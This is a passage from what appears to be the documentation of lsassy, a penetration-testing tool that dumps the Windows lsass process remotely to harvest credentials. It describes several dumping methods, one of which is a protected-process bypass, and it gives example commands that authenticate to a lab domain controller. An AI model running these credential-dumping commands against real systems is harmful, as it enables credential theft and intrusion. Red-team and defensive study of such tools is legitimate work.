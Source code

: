 #### comsvcs method

This method **only uses built-in Windows files** to extract remote credentials. It uses **minidump** function from **comsvcs.dll** to dump **lsass** process.

#### Procdump method

This method uploads **procdump.exe** from SysInternals to dump **lsass** process. 

#### Dumpert method

This method uploads **dumpert.exe** or **dumpert.dll** from [outflanknl](https://github.com/outflanknl/Dumpert) to dump **lsass** process using syscalls.

#### Ppldump

This method uploads **ppldump.exe** from [itm4n](https://github.com/itm4n/PPLdump) to dump **lsass** process and bypass PPL.

#### Mirrordump

This method uploads **Mirrordump.exe** from [Ccob](https://github.com/CCob/MirrorDump) to dump **lsass** using already opened handle to lsass via an LSA plugin.

#### WER

This method uses WER technique used in [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1).

#### Options

For some dumping method, options are required, like procdump or dumpert path. These options can be set using `--options` or `-O` with a comma separated list of options in a `key=value` way.

```
... --options key=value,foo=bar
```

For example:

```bash
lsassy -d hackn.lab -u pixis -p P4ssw0rd dc01.hackn.lab -m procdump    -O procdump_path=/opt/Sysinternals/procdump.exe
lsassy -d hackn.lab -u pixis -p P4ssw0rd dc01.hackn.lab -m dumpert     -O dumpert_path=/opt/dumpert.exe
lsassy -d hackn.lab -u pixis -p P4ssw0rd dc01.hackn.lab -m dumpertdll  -O dumpertdll_path=/opt/dumpert.dll
```

#### Parse only

You can choose to parse an already dumped lsass process by providing `--parse-only` switch, alongside with `--dump-path` and `--dump-name` parameters.

Note that if you choose this method, the **remote lsass dump won't be deleted**.

For example:
